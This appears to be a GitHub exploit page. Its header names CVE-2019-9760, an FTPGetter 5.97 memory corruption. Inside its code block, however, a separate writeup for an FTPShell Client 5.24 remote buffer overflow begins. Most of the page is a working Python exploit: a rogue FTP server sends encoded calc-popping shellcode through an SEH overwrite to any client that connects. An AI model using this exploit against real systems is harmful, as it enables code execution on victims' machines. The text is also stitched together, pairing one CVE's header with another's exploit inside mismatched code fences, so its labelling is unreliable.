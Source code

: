 # CVE-2019-9760
* Date : March 2019
* Credit : ???

## Description
* FTPGetter 5.97 Memory Corruption
* Tested on Windows 7 64bit

## PoC
```python
# CVE-2016-????
* Date : Nov 2016
* Credit : Yunus YILDIRIM (Th3GundY)

## Description
* FTPShell Client 5.24 Remote Buffer Overflow
* Tested on Windows 7 enterprise 32bit
* Target EIP address should be revised according to each platforms..

## PoC
```python
import socket
import struct
import time
import sys

# badchars = (
#   "\x59\x5a\x5b\x5c\x0a\x0d\x20\x40\x1a\x80\x82\x83\x84\x85\x86\x87"
#   "\x88\x89\x8a\x8b\x8c\x8e\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
#   "\x9c\x9e\x9f\xc0\xc1"
#  )

# x86/alpha_mixed simple fixer -> bytes "\x89\xe3\xd9\xe1\xd9\x73\xf4"
calc =  ""                       
calc += "\x54"                   # push esp
calc += "\x58"                   # pop eax
calc += "\x05\x43\x06\x00\x00"   # add eax,0x643
calc += "\x50"                   # push eax
calc += "\x5f"                   # pop edi
calc += "\x25\x4A\x4D\x4E\x55"   # zerout EAX
calc += "\x25\x35\x32\x31\x2A"   # zerout EAX
calc += "\x04\xab"               # ADD AL,0xab
calc += "\x31\x07"               # XOR DWORD PTR DS:[EDI],EAX
calc += "\x31\x47\x01"           # XOR DWORD PTR DS:[EDI+1],EAX
calc += "\x31\x47\x02"           # XOR DWORD PTR DS:[EDI+2],EAX
calc += "\x2C\x5B"               # SUB AL,0x5b -> EAX = 0x50 
calc += "\x31\x47\x03"           # XOR DWORD PTR DS:[EDI+3],EAX
calc += "\x31\x47\x04"           # XOR DWORD PTR DS:[EDI+4],EAX
calc += "\x90\x90\x90\x90"       # padding

# "\x89\xe3"
calc += "\x54"                   # push esp
calc += "\x5b"                   # pop ebx

# "\xd9\xe1\xd9" xored: 0xab
calc += "\x72\x4a\x72"

# \x73\xf4 xored: 0x50
calc += "\x23\xa4"               

calc += "\x58\x50\x59\x49\x49\x49"
calc += "\x49\x43\x43\x43\x43\x43\x43\x51\x5a\x56\x54\x58\x33"
calc += "\x30\x56\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41"
calc += "\x30\x30\x41\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41"
calc += "\x42\x32\x42\x42\x30\x42\x42\x58\x50\x38\x41\x43\x4a"
calc += "\x4a\x49\x58\x59\x48\x4b\x4f\x4e\x48\x39\x47\x53\x45"
calc += "\x37\x56\x51\x38\x59\x32\x54\x51\x34\x5a\x54\x51\x4a"
calc += "\x51\x39\x4f\x39\x58\x31\x45\x43\x56\x51\x53\x42\x35"
calc += "\x49\x4b\x33\x48\x42\x55\x54\x45\x53\x43\x42\x45\x45"
calc += "\x31\x4b\x58\x56\x50\x56\x4d\x33\x39\x59\x32\x51\x4a"
calc += "\x5a\x32\x42\x4b\x31\x4d\x32\x43\x45\x4b\x32\x44\x4b"
calc += "\x4e\x53\x4d\x31\x49\x50\x38\x59\x34\x4b\x55\x31\x49"
calc += "\x30\x54\x51\x5a\x47\x55\x53\x57\x31\x4d\x54\x53\x4c"
calc += "\x59\x4b\x49\x42\x49\x38\x4d\x4a\x5a\x37\x4f\x4a\x33"
calc += "\x58\x34\x50\x4b\x4b\x51\x4b\x5a\x48\x4e\x4d\x42\x50"
calc += "\x53\x4b\x46\x48\x4e\x53\x4b\x36\x35\x58\x42\x44\x4e"
calc += "\x4c\x30\x52\x54\x4e\x4c\x4d\x59\x4d\x46\x4d\x37\x4c"
calc += "\x37\x4c\x4f\x50\x4b\x4c\x4f\x4c\x4c\x42\x57\x53\x49"
calc += "\x38\x58\x57\x4d\x44\x32\x4e\x57\x53\x38\x59\x5a\x43"
calc += "\x33\x35\x49\x44\x43\x35\x4c\x32\x45\x4b\x5a\x49\x35"
calc += "\x59\x51\x4a\x35\x4c\x50\x39\x4f\x4d\x41\x41"

# Encode addresses and create jmp esp
# Calculate jmp esp offset and put it on stack
jump_back =  "\x55"                  # push ebp
jump_back += "\x58"                  # pop eax
jump_back += "\x05\x2b\x08\x00\x00"  # add eax,2091
jump_back += "\x50"                  # push eax

# zerout EAX
jump_back += "\x25\x4A\x4D\x4E\x55"  # and  eax, 0x554e4d4a
jump_back += "\x25\x35\x32\x31\x2A"  # and  eax, 0x2a313235

jump_back += "\x3E\x33\x04\x24"      # XOR EAX,DWORD PTR DS:[ESP] -> send stack addr to EAX
jump_back += "\x50"                  # push eax
jump_back += "\x5f"                  # pop edi

# zerout EAX
jump_back += "\x25\x4A\x4D\x4E\x55"  # and  eax, 0x554e4d4a
jump_back += "\x25\x35\x32\x31\x2A"  # and  eax, 0x2a313235

jump_back += "\x04\x81"              # ADD AL,0x81
jump_back += "\x31\x07"              # XOR DWORD PTR DS:[EDI],EAX
jump_back += "\x31\x47\x01"          # XOR DWORD PTR DS:[EDI+1],EAX
jump_back += "\x90\x90\x90\x90"      # padding

# Tool utilized: https://github.com/ihack4falafel/Slink
# All rights reserved to ihack4falafel
#
# \x54\x58\x66\x05\x04\x06\x50\xc3
jump_back += "\x25\x4A\x4D\x4E\x55"  # and  eax, 0x554e4d4a
jump_back += "\x25\x35\x32\x31\x2A"  # and  eax, 0x2a313235
jump_back += "\x05\x02\x03\x30\x62"  # add  eax, 0x62300302
jump_back += "\x05\x02\x03\x20\x61"  # add  eax, 0x61200302
jump_back += "\x50"                  # push eax
jump_back += "\x25\x4A\x4D\x4E\x55"  # and  eax, 0x554e4d4a
jump_back += "\x25\x35\x32\x31\x2A"  # and  eax, 0x2a313235
jump_back += "\x05\x32\x34\x33\x03"  # add  eax, 0x03333432
jump_back += "\x05\x22\x24\x33\x02"  # add  eax, 0x02332422
jump_back += "\x50"                  # push eax

jump_back += "\x7e\x65"                  # jmp esp xored: 0x81

# Overflow size 493
payload =  "\x90" * 29
payload += calc                          # shellcode 
payload += "\x90" * (493 - len(payload)) # padding
payload += "\x7e\x06\x90\x90"            # NSEH
payload += "\x31\x20\x77\x00"            # SEH -> POP ESI # POP EBX # RETN
payload += "\x90\x90\x90\x90"
payload += jump_back                     # jump to our calc 
payload += "\x90" * 700                  # Final padding

try:
    host, port = "0.0.0.0", 21
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, int(port)))
    s.listen(5)
    print "[*] Listening server at port: {}".format(port)
    print "[*] Waiting for the client!.."
    
except Exception as e:
    print "[-] Failed attempt to create bind socket!"
    print "[-] " + str(e)
    sys.exit(0)
    
try:
    conn, client = s.accept()
    conn.send("220 Welcome to server !\r\n")
    conn.recv(1024)
    
    print "[+] User started communication with server!"
    conn.send("331 anonymous OK!\r\n")
    conn.recv(1024)
    print "[+] Received anonymous user from the client!"
    
    print "[*] CALC shellcode Length: " + str(len(calc))
    print "[*] Jump Back shellcode Length: " + str(len(jump_back))
    print "[*] Payload final size: " + str(len(payload))
    print "[!] Attempting to send payload!..."
    conn.send("230 " + payload + "\r\n")

    time.sleep(1)
    print "[+] You should have your poped calc!"

    conn.close()
    s.close()
except Exception as e:
    print "[-] Failed attempt to send payload!"
    print "[-] " + str(e)
    sys.exit(0)
```

## Reference
[ExploitDB 46543](https://www.exploit-db.com/exploits/46543)
[CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9760)
```
